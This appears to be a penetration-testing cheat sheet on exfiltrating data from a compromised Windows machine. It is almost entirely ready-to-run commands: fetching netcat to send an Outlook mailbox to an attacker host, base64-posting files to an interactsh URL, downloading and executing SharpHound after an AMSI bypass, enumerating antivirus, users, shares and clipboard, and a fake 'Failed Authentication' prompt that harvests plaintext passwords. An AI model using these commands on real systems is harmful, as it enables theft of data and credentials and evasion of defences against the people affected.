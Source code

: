 # Exfiltrate and find data and info
On victim/client:

In powershell shell (powershell has the wget command):
```cmd
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 <yourIP> 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```


Or via HTTP requests:

file/pdf extraction:
```powershell
$File = "file.pdf"
$uri = "ID.interactsh.com" # change the ID 
$pdf = Get-Content $File -Encoding Byte; 
$base64 =[Convert]::ToBase64String($pdf)
Invoke-WebRequest -uri $uri -Method Post -Body $base64
```

Use https://base64.guru/converter/decode/file#download-preview-file to get the file from the base64 content

bloodhound:
```powershell
# FIRST run AMSI bypass! 
$url = "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
IEX([Net.Webclient]::new().DownloadString($url))
mkdir "$Env:PUBLIC\bloodhound"
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default  -OutputDirectory "$Env:PUBLIC\bloodhound"
# use file/pdf extraction to get the zip file. 
```

View AV used:
```powershell
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List #Powershell
```

View information about current user:
```powershell
whoami
net user <name_user_whoami_without_domain> /domain
hostname
```

Show mounted shares:
```
Get-WmiObject Win32_NetworkConnection | ft "LocalName","RemoteName" -A #powershell
net use # cmd
```

Get clipboard content: 

```powershell
powershell -command "Get-Clipboard"
```
Ask for credentials:
```powershell
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```
